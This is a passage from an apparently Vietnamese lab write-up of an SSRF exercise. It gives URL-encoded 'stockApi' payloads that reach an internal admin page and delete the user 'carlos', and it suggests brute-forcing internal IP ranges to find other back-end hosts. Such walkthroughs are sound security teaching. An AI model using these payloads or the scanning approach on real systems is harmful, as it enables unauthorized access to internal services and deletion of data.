 - Thay đổi payload `stockApi=http%3A%2F%2F192.168.0.165%3A8080/admin` để có thể truy cập trang admin.
![alt text](image-6.png)

- Sử dụng payload `stockApi=http%3A%2F%2F192.168.0.165%3A8080/admin/delete?username=carlos` để xóa `carlos` và hoàn thành bài lab.

**Notes**
Bên cạnh việc tận dụng lỗ hổng SSRF truy cập vào server local, chúng ta cũng có thể truy cập vào các hệ thống back-end khác. 
Các hệ thống này thường không thể truy cập trực tiếp từ public server, để tấn công được các server này chúng ta cần biết chính xác domain hoặc địa chỉ IP của chúng. Có thể sử dụng phương pháp Brute force tìm kiếm trong dải địa chỉ IP phù hợp với mục tiêu tấn công.
SSRF là một lỗ hổng giúp kẻ tấn công có thể tìm kiếm nhiều các attack vector khác nữa.

---
